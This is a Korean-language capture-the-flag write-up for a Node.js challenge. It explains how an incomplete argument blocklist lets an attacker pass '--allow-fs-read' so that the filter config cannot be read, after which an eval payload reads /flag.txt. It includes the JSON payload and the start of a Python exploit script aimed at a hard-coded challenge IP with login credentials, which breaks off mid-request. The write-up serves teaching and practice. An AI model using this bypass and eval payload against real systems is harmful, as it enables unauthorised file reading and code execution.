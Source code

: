 ```python
```

`main.js`를 보면, `opt`과 `expr`을 입력해서 인자로 사용하는 eval 함수를 실행할 수 있다.

하지만 opt와 expr 모두 각각의 mitigation이 존재한다. 따라서 이것을 우회하면서 system command를 실행하도록 payload를 완성해야한다.

```python
#!/bin/bash
node --experimental-permission --allow-fs-read=/app/* --allow-child-process /app/main.js
```

`run.sh`를 보면, `--allow-fs-read`로 모든 파일이 허용된 것을 알 수 있다.

```python
const badArg = ["--print", "-p", "--input-type", "--import", "-e", "--eval", "--allow-fs-write", "--allow-child-process", "-", "-C", "--conditions"]
```

opt에 대한 검증을 수행하는 `badArg`를 보면 `--allow-fs-read` 는 없다는 것을 알 수 있다.

즉, `eval.js`를 실행할 때, `--allow-fs-read` 옵션을 주고 실행할 수 있다.

```python
const fs = require("fs");
let filter = null;
try {
    filter = fs.readFileSync("config").toString();
} catch {}
```

`eval.js`를 다시 보면, config 파일을 읽고 filter로 사용한다.

만약, 여기서 권한 문제로 config 파일을 읽지 못한다면 filter에는 아무 값도 저장되지 않을 것이다.

즉, eval 명령을 자유롭게 사용할 수 있다.

```python
{
    "expr": "require('fs').readFileSync('/flag.txt',{ encoding: 'utf8', flag: 'r' })",
    "opt": "--allow-fs-read=/app/eval*,/flag*"
}
```

따라서 솔루션은 간단하다.

opt로 `--allow-fs-read`를 지정해서 `eval.js`와 `flag.txt`만 read 권한을 허용한다. 다음으로 `/flag.txt`를 읽는 system command를 expr로 입력해서 실행하면 된다.

### ○ exploit

```python
from requests import *
import json

s = Session()

def post_req(path):
  url = f"http://58.229.185.29/{path}"
  #url = f"http://127.0.0.1/{path}"
  
	# Add Content-Type header
  header = {'Content-Type':'application/json'}
  
  if path == 'login':
    data = {
      "username":"keyme",
      "password":"keyme123"
    }
  else:
    data = {
      "expr": "require('fs').readFileSync('/flag.txt',{ encoding: 'utf8', flag: 'r' })",
```